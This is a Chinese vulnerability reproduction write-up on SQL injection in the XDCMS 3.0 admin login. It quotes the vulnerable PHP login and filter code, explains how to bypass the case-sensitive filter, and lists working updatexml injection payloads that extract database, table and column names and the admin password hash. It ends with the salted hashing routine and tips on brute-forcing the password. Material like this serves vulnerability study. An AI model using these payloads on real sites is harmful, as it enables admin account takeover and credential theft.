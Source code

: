 XDCMS 3.0 后台登录窗sql注入漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 3.0

三、复现过程
------------

漏洞链

    system/modules/xdcms/login.php
    public function check(){
            
            $username = safe_html($_POST['username']);
            $password = safe_html($_POST['password']);
            $verifycode = safe_html($_POST['verifycode']);

            if(empty($username)||empty($password)){
                showmsg(C('user_pass_empty'),'-1');
            }
            
            if($verifycode!=$_SESSION['code']){
                showmsg(C('verifycode_error'),'-1');
            }
            
            $sql="select * from ".DB_PRE."admin where `username`='$username'";
            if($this->mysql->num_rows($sql)==0){
                showmsg(C('user_not_exist'),'-1');
            }
            
            $rs=$this->mysql->get_one($sql);
            $password=password($password,$rs['encrypt']);
            if($password!=$rs['password']){
                showmsg(C('password_error'),'-1');
            }
            
            if($rs['is_lock']==1){
                showmsg(C('user_lock'),'-1');
            }
            
            $logins=$rs["logins"]+1;
            $ip=safe_replace(safe_html(getip()));
            $this->mysql->db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");
            
            $_SESSION['admin']=$rs['username'];
            $_SESSION['admin_id']=$rs['id'];
            $_SESSION['groupid']=$rs['groupid'];
            unset($rs);
            showmsg(C("login_success"),"index.php?m=xdcms&c=index");
        }
    safe_html()
    function safe_html($str){
        if(empty($str)){return;}
        $str=preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
    |outfile/','',$str);
        return htmlspecialchars($str);
    }

safe\_html()使用preg\_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

    #爆库
    username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
    //updatexml一次显示32位字符，需要偏转
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
    #爆内容
    username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button=

![](./.resource/XDCMS3.0后台登录窗sql注入漏洞/media/rId24.jpg)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

    function password($password, $encrypt='') {
        $pwd = array();
        $pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
        $password_md5=md5(trim($password));
        $nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
        $pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
        return $encrypt ? $pwd['password'] : $pwd;
    }
